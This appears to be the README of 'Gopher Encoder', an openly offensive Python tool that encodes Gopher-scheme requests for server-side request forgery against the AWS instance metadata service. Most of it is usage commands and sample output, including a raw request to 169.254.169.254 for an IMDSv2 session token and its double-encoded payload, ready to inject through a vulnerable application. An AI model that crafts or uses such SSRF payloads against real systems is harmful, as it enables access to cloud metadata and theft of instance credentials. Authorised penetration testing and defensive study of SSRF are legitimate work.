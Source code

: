 # Gopher Encoder
Encode raw Gopher requests into AWS IMDSv2-safe URL format for use in SSRF exploitation and red team scenarios.

Part of the [aws-red-team-tools](https://github.com/CyberWolfByte/aws-red-team-tools) collection, this utility helps automate the encoding of Gopher-style HTTP requests used to access the AWS Instance Metadata Service (IMDSv2) via vulnerable web applications or proxies.

## Features
- Double URL-encoding of the HTTP payload
- Correct encoding of Gopher scheme and request path
- CRLF (`\r\n`) line endings are double-encoded as `%250D%250A`
- Automatically handles any number of HTTP headers
- Supports malformed headers (missing colon) with fallback line encoding
- Output can be saved to a file


## Input Options
- `--file` or `-f`: Load raw Gopher request from a file
- `--stdin` or `-s`: Paste raw Gopher request directly into the terminal
- `raw`: Provide a multi-line Gopher request as a string argument


## Prerequisites
- **Python**: 3.6+

## Usage
Clone the repo:
```bash
git clone https://github.com/CyberWolfByte/aws-red-team-tools.git
cd aws-red-team-tools/gopher-encoder
```

Encode from file:
```bash
python3 gopher_encoder.py --file gopher_request.txt
```

Encode from terminal:
```bash
python3 gopher_encoder.py --stdin
# Paste your request, then press Ctrl+D (Linux/macOS) or Ctrl+Z, then Enter (Windows)
```

Encode directly from a string:
```bash
python3 gopher_encoder.py "gopher://169.254.169.254:80/_PUT /latest/api/token HTTP/1.1\nHost: 169.254.169.254\nX-aws-ec2-metadata-token-ttl-seconds: 21600"
```

Save encoded output to file:
```bash
python3 gopher_encoder.py -f gopher_request.txt -o encoded_output.txt

python3 gopher_encoder.py --stdin -o encoded_output.txt

python3 gopher_encoder.py "gopher://..." --output encoded_output.txt
```

## How It Works
- Input must start with gopher:// — this is enforced
- The first line must contain the /_ prefix to indicate a raw HTTP payload
- All HTTP data after /_ is double URL-encoded
- All line endings (\r\n) are double-encoded to %250D%250A
- Headers are encoded as Key%3A%2520Value%250D%250A

## Output Examples
```
python3 gopher_encoder.py --stdin -o encoded_output.txt
Paste the raw Gopher request (end with Ctrl+D):
gopher://169.254.169.254:80/_PUT /latest/api/token HTTP/1.1
Host: 169.254.169.254
X-aws-ec2-metadata-token-ttl-seconds: 21600
[+] Encoded Gopher request written to: encoded_output.txt

cat encoded_output.txt
gopher%3A%2F%2F169.254.169.254%3A80%2F_PUT%2520%252Flatest%252Fapi%252Ftoken%2520HTTP%252F1.1%250D%250AHost%3A%2520169.254.169.254%250D%250AX-aws-ec2-metadata-token-ttl-seconds%3A%252021600%250D%250A
```
```
python3 gopher_encoder.py -s                                         
Paste the raw Gopher request (end with Ctrl+D):
gopher://169.254.169.254:80/_PUT /latest/api/token HTTP/1.1
Host: 169.254.169.254
X-aws-ec2-metadata-token-ttl-seconds: 21600
gopher%3A%2F%2F169.254.169.254%3A80%2F_PUT%2520%252Flatest%252Fapi%252Ftoken%2520HTTP%252F1.1%250D%250AHost%3A%2520169.254.169.254%250D%250AX-aws-ec2-metadata-token-ttl-seconds%3A%252021600%250D%250A

```
## Contributing
If you have an idea for improvement or wish to collaborate, feel free to contribute.
